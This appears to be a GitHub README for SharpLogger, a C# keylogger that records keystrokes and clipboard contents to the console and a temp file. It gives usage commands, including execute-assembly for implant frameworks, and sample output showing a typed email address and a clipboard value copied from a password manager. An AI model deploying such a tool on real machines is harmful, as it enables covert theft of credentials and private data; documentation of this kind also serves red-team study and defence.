 # SharpLogger

## Description

Simple C# project to log keystrokes to both console and a temp file.

## Usage

`.\Keylogger.exe`

`execute-assembly Keylogger.exe`

## Example Output

```
User    : DOMAIN\USER
Window  : Gmail - Google Chrome
Time    : 2018-12-18 01:01:54 PM
LogFile : C:\Users\USER\AppData\Local\Temp\ffbe0dfd-2d6a-4470-9e4b-0c65eeec5a9c.log
----------------------------------------------

testuser@gmail.com<Enter><Ctrl><Windows Key><Left>

User    : DOMAIN\USER
Window  : 1Password
Time    : 2018-12-18 01:01:59 PM
LogFile : C:\Users\USER\AppData\Local\Temp\ffbe0dfd-2d6a-4470-9e4b-0c65eeec5a9c.log
----------------------------------------------

<Ctrl>
        [cntrl-C] Clipboard Copied: mciDuz72zKmkqiEaLG

        [cntrl-C] Clipboard Copied: mciDuz72zKmkqiEaLG
<Ctrl><Windows Key><Right>
```

## Special Thanks

To PowerSploit and Justin Bui's project, SharpClipboard (https://github.com/justinbui/SharpClipboard)
